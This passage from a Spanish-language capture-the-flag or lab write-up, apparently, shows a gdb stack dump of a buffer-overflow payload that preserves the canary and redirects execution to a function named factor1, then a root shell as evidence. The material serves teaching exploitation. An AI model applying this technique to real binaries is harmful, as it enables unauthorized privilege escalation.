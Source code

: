 Despues ejecutamos este:
```bash
x/40gx $rsp

0x7fffffffea70: 0x00007ffff79f2760      0x00007ffff78a13e3
0x7fffffffea80: 0x5353535353535353      0x5353535353535353
0x7fffffffea90: 0x5353535353535353      0x5353535353535353
0x7fffffffeaa0: 0x5353535353535353      0x5353535353535353
0x7fffffffeab0: 0x5353535353535353      0x5353535353535353
0x7fffffffeac0: 0x5353535353535353      0x347c63cef0e22700
0x7fffffffead0: 0x4141414141414141      0x00005555555572d8
0x7fffffffeae0: 0x000000000000000a      0x0000000000000000
0x7fffffffeaf0: 0x0000000000000000      0x0000000000000000
0x7fffffffeb00: 0x0000000000000000      0x0000000000000000
0x7fffffffeb10: 0x0000000000000000      0x00007ffff7fe5f70
0x7fffffffeb20: 0x0000000000000000      0x347c63cef0e22700
0x7fffffffeb30: 0x0000000000000001      0x00007ffff784624a
0x7fffffffeb40: 0x00007fffffffec30      0x000055555555775e
0x7fffffffeb50: 0x0000000100000001      0x00007fffffffec48
0x7fffffffeb60: 0x00007fffffffec48      0x943915852c268faa
0x7fffffffeb70: 0x0000000000000000      0x00007fffffffec58
0x7fffffffeb80: 0x0000555555559dc8      0x00007ffff7ffd020
0x7fffffffeb90: 0x6bc6ea7afaa48faa      0x6bc6fa8de8208faa
0x7fffffffeba0: 0x00007fff00000000      0x0000000000000000
(gdb) 
```

Podemos ver que el paylod si ingreso de manera correcta ya que observamos las 72 "S" (0x53) en azul, el canary sería lo que se encuentra en blanco, las 8 "A" sería lo que está en verde y en rojo está la dirección de la función `factor1`; por lo que si ejecutamos `continue` dos veces obtendremos una shell como usuario **root**.
```bash
(gdb) continue
Continuing.
Usuario no autorizado, notificacion enviada al administrador. 
process 5858 is executing new program: /usr/bin/bash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0000555555583eb0 in main ()
(gdb) continue
Continuing.
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@cybersec:/tmp# whoami
[Detaching after fork from child process 5969]
root
```

---

## Lecciones Aprendidas
1. Aprendimos a explotar binarios 
2. Aprendimos **bufferOverFlow**